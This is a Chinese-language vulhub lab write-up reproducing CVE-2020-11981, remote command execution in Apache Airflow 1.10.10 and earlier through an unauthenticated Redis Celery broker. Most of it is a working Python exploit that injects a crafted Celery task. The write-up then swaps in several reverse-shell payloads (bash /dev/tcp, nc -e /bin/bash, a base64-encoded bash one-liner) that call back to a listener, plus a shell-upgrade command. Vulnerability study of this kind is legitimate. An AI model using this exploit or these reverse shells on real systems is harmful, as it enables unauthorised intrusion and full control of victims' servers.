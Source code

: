 # Apache Airflow Celery 消息中间件命令执行

## 漏洞编号

CVE-2020-11981



## 漏洞描述

Airflow 是一个使用 python 语言编写的 data pipeline 调度和监控工作流的平台。Airflow 是通过 DAG（Directed acyclic graph 有向无环图）来管理任务流程的任务调度工具， 不需要知道业务数据的具体内容，设置任务的依赖关系即可实现任务调度。



这个平台拥有和 Hive、Presto、MySQL、HDFS、Postgres 等数据源之间交互的能力，并且提供了钩子（hook）使其拥有很好地扩展性。除了一个命令行界面，该工具还提供了一个基于 Web 的用户界面可以可视化管道的依赖关系、监控进度、触发任务等。



Apache Airflow是一款开源的，分布式任务调度框架。在其1.10.10版本及以前，如果攻击者控制了Celery的消息中间件（如Redis/RabbitMQ），将可以通过控制消息，在Worker进程中执行任意命令。



利用这个漏洞需要控制消息中间件，vulhub环境中Redis存在未授权访问

通过未授权访问，攻击者可以下发自带的任务airflow.executors.celery_executor.execute_command来执行任意命令，参数为命令执行中所需要的数组





## 影响范围

Apache Airflow <= 1.10.10



## 环境搭建

```
# 初始化数据库
docker-compose run airflow-init
# 启动服务
docker-compose up -d
```

![image-20250409190756727](./assets/image-20250409190756727.png)

![image-20250409190805567](./assets/image-20250409190805567.png)



验证

```
docker-compose ps
```

![image-20250409191038808](./assets/image-20250409191038808.png)

成功



## 漏洞复现

利用提供的脚本

```
import pickle
import json
import base64
import redis
import sys
r = redis.Redis(host=sys.argv[1], port=6379, decode_responses=True,db=0)
queue_name = 'default'
ori_str="{\"content-encoding\": \"utf-8\", \"properties\": {\"priority\": 0, \"delivery_tag\": \"f29d2b4f-b9d6-4b9a-9ec3-029f9b46e066\", \"delivery_mode\": 2, \"body_encoding\": \"base64\", \"correlation_id\": \"ed5f75c1-94f7-43e4-ac96-e196ca248bd4\", \"delivery_info\": {\"routing_key\": \"celery\", \"exchange\": \"\"}, \"reply_to\": \"fb996eec-3033-3c10-9ee1-418e1ca06db8\"}, \"content-type\": \"application/json\", \"headers\": {\"retries\": 0, \"lang\": \"py\", \"argsrepr\": \"(100, 200)\", \"expires\": null, \"task\": \"airflow.executors.celery_executor.execute_command\", \"kwargsrepr\": \"{}\", \"root_id\": \"ed5f75c1-94f7-43e4-ac96-e196ca248bd4\", \"parent_id\": null, \"id\": \"ed5f75c1-94f7-43e4-ac96-e196ca248bd4\", \"origin\": \"gen1@132f65270cde\", \"eta\": null, \"group\": null, \"timelimit\": [null, null]}, \"body\": \"W1sxMDAsIDIwMF0sIHt9LCB7ImNoYWluIjogbnVsbCwgImNob3JkIjogbnVsbCwgImVycmJhY2tzIjogbnVsbCwgImNhbGxiYWNrcyI6IG51bGx9XQ==\"}"
task_dict = json.loads(ori_str)
command = ['touch', '/tmp/airflow_celery_success']
body=[[command], {}, {"chain": None, "chord": None, "errbacks": None, "callbacks": None}]
task_dict['body']=base64.b64encode(json.dumps(body).encode()).decode()
print(task_dict)
r.lpush(queue_name,json.dumps(task_dict))
```

![image-20250409191121649](./assets/image-20250409191121649.png)

及在/tmp目录下创建ariflow_celery_success文件



执行该脚本

```
python exploit_airflow_celery.py 192.168.23.134
```

![image-20250409191232243](./assets/image-20250409191232243.png)



进入容器中验证

```
docker ps
docker exec -it d36881f4f674 /bin/bash
ls /tmp
```

![image-20250409191403087](./assets/image-20250409191403087.png)

成功创建



尝试反弹shell

修改脚本

```
command = ['bash','-i','>&','/dev/tcp/192.168.23.134/283','0>&1']
```

![image-20250409191548959](./assets/image-20250409191548959.png)



本地开启监听

```
nc -lvp 283
```

![image-20250409191742151](./assets/image-20250409191742151.png)



但是利用bash反弹shell失败



进入容器中验证是否有nc

```
docker exec -it d36881f4f674 /bin/bash
which nc
```

![image-20250409191724532](./assets/image-20250409191724532.png)

存在nc





利用nc反弹shell

再次修改脚本

```
command = ['nc','-e','/bin/bash','192.168.23.134','283']
```

![image-20250409191854086](./assets/image-20250409191854086.png)



执行脚本

```
python exploit_airflow_celery.py 192.168.23.134
```

![image-20250409191922483](./assets/image-20250409191922483.png)

![image-20250409191932066](./assets/image-20250409191932066.png)

成功弹回shell



利用script美化终端

```
/usr/bin/script -qc /bin/bash /dev/null
```

![image-20250409192003162](./assets/image-20250409192003162.png)



利用base64编码bash弹shell

```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIzLjEzNC8yODMgMD4mMQ==}|{base64,-d}|{bash,-i}
```

![image-20250409192236361](./assets/image-20250409192236361.png)



再次修改py文件

```
command = ['bash','-c','{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIzLjEzNC8yODMgMD4mMQ==}|{base64,-d}|{bash,-i}']
```

![image-20250409192302408](./assets/image-20250409192302408.png)



执行

```
python exploit_airflow_celery.py 192.168.23.134
```

![image-20250409192324241](./assets/image-20250409192324241.png)



成功弹回shell

![image-20250409192339020](./assets/image-20250409192339020.png)





## 修复建议

及时更新到新版本

